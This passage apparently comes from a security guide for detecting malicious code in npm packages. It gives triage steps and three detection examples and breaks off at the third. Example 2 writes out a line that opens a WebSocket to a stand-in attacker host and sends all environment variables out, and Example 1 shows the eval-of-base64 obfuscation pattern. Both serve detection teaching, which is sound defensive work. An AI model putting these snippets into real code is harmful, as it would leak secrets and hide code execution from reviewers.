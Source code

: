**Unknown**:
1. **Escalate to security team**
2. **Perform manual code review**
3. **Check package provenance**: npm audit signatures, Scorecard
4. **Scan with additional tools**: VirusTotal, hybrid-analysis.com

---

## Detection Examples

### Example 1: Obfuscated Payload

**Finding**:
```javascript
// src/malicious.js:42
eval(atob("Y29uc29sZS5sb2coJ2hhY2tlZCcp"));
```

**Analysis**:
```bash
# Decode base64
echo "Y29uc29sZS5sb2coJ2hhY2tlZCcp" | base64 -d
# Output: console.log('hacked')
```

**Verdict**: True positive (obfuscated code execution)
**Action**: Remove immediately, investigate how it entered codebase

---

### Example 2: Hidden WebSocket

**Finding**:
```javascript
// node_modules/compromised-package/index.js:10
const ws = new WebSocket('wss://attacker.com/c2');
ws.onopen = () => ws.send(JSON.stringify(process.env));
```

**Analysis**: Exfiltrates environment variables to external host
**Verdict**: True positive (data exfiltration)
**Action**:
1. Remove package immediately
2. Check package-lock.json for when introduced
3. Rotate all secrets
4. File incident report with npm security team

---

### Example 3: Legitimate Base64

**Finding**:
```javascript
// src/crypto.ts:100
const PUBLIC_KEY = "LS0tLS1CRUdJTiBQVUJMSUMgS0VZLS0tLS0..."; // 200 chars
```

